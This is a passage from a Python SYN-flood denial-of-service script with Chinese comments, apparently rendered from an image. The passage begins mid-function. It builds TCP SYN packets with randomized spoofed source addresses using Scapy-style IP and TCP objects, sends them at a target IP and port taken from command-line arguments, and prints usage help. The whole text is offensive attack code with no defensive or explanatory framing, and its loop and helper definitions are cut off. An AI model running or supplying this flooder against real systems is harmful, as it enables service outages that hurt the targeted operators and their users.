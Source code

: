 ``` python
        # 生成IP数据包
		IP_Packet = IP ()
		IP_Packet.src = randomIP()
		IP_Packet.dst = dstIP
		# 生成TCP数据包
		TCP_Packet = TCP ()
		TCP_Packet.sport = s_port
		TCP_Packet.dport = int(dstPort)
		TCP_Packet.flags = "S"
		TCP_Packet.seq = s_eq
		TCP_Packet.window = w_indow
		
        # 设定间隔为0.01s，发送数据包
		send(IP_Packet/TCP_Packet, inter=0.01, verbose=0)
		stdout.write("\nSent %i packets.\n" % total)
		total+=1

	stdout.write("\nTotal packets sent: %i\n" % total)


def main():
    # 添加参数
	parser = ArgumentParser()
	parser.add_argument('--target', '-t', help='target IP address')
	parser.add_argument('--port', '-p', help='target port number')
	parser.add_argument('--count', '-c', help='number of packets')
	parser.epilog = "Usage: python3 syn-flooding.py -t 10.20.30.40 -p 8080 -c 1"

	args = parser.parse_args()

	if args.target is not None:
		if args.port is not None:
			if args.count is None:
				print('[!]You did not use --counter/-c parameter, so 1 packet will be sent..')
				SYN_Flood(args.target, args.port, 1)

			else:
				SYN_Flood(args.target, args.port, int(args.count))

		else:
			print('[-]Please, use --port/-p to give target\'s port!')
			print('[!]Example: -p 445')
			print('[?] -h for help')
			exit()
	else:
		print('''usage: py3_synflood_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]
optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets''')
		exit()

if __name__ == "__main__":
	main()
```
